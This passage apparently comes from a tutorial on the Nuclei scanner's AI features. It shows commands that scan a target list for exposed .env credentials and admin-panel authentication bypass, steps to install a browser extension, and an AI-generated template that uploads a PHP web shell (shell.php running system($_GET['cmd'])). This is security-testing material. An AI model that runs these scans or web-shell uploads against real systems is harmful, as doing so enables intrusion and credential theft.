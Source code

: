 ```bash
nuclei -l targets.txt -ai "Find exposed .env files containing database credentials and API keys"

# Admin panel discovery
nuclei -l targets.txt -ai "Detect exposed admin panels with default authentication bypass"
```

### 19.2 AI Browser Extension for Real-Time Template Creation

The Nuclei AI Browser Extension enables dynamic template generation from web content:

**Installation and Setup:**
```bash
# Chrome Extension Installation
# 1. Download from GitHub releases
# 2. Enable Developer mode in chrome://extensions
# 3. Load unpacked extension folder
# 4. Login to cloud.projectdiscovery.io

# Keyboard shortcut for AI editor
# Press Ctrl+Shift+O on any webpage to toggle AI editor
```

**HackerOne Integration Example:**
```javascript
// Extract vulnerability details from HackerOne reports
// Right-click on report → "Generate Nuclei Template"
// AI processes the POC and generates YAML template

// Example generated template from H1 report:
id: h1-rce-vulnerability
info:
  name: Remote Code Execution via File Upload
  author: ai-generated
  severity: critical
  description: RCE through unrestricted file upload functionality
  
http:
  - method: POST
    path:
      - "{{BaseURL}}/upload"
    headers:
      Content-Type: "multipart/form-data"
    body: |
      ------WebKitFormBoundary
      Content-Disposition: form-data; name="file"; filename="shell.php"
      Content-Type: application/octet-stream
      
      <?php system($_GET['cmd']); ?>
      ------WebKitFormBoundary--
    
    matchers:
      - type: word
        words:
          - "upload successful"
        condition: and
      - type: status
        status:
          - 200
```
